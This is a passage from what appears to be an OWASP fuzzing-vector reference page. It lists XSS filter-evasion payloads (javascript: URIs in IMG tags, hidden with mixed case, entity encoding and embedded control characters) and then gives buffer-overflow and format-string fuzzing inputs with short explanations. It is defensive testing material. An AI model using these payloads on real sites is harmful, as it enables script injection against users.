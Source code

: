 `<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>`\
`<IMGSRC=&#106;&#97;&#118;&#97;&<WBR>#115;&#99;&#114;&#105;&#112;&<WBR>#116;&#58;&#97;`\
` &#108;&#101;&<WBR>#114;&#116;&#40;&#39;&#88;&#83<WBR>;&#83;&#39;&#41>`\
`<IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116:`\
` &<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041>`\
` <IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74(`\
` &<WBR>#x27&#x58&#x53&#x53&#x27&#x29>`\
` <IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">`\
`<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">`\
`<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">`

### Buffer Overflows and Format String Errors

#### Buffer Overflows (BFO)

A buffer overflow or memory corruption attack is a programming condition which allows overflowing of valid data beyond its prelocated storage limit in memory.

For details on Buffer Overflows: [ Testing for Buffer Overflow ](Testing_for_Buffer_Overflow_(OWASP-DV-014) "wikilink")

Note that attempting to load such a definition file within a fuzzer application can potentially cause the application to crash.

`A x 5`\
`A x 17`\
`A x 33`\
`A x 65`\
`A x 129`\
`A x 257`\
`A x 513`\
`A x 1024`\
`A x 2049`\
`A x 4097`\
`A x 8193`\
`A x 12288`

#### Format String Errors (FSE)

Format string attacks are a class of vulnerabilities that involve supplying language specific format tokens to execute arbitrary code or crash a program. Fuzzing for such errors has as an objective to check for unfiltered user input.

An excellent introduction on FSE can be found in the USENIX paper entitled: [Detecting Format String Vulnerabilities with Type Qualifiers](http://research.microsoft.com/pubs/74359/01-shankar.pdfl)

Note that attempting to load such a definition file within a fuzzer application can potentially cause the application to crash.
